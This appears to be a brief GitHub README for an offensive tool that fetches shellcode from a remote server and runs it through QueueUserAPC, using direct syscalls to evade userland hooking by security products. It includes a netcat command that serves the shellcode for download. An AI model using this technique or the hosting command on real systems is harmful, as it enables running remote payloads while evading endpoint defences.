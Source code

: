 # 0xrob-HostedShellcode-QueueUserAPC-Syscall

This allows you to pull shellcode from a server and execute it via QueueUserAPC with syscalls to bypass userland hooking

shellcode can be hosted easily with something like

nc -vnlp 8080 < /Path/To/Shellcode
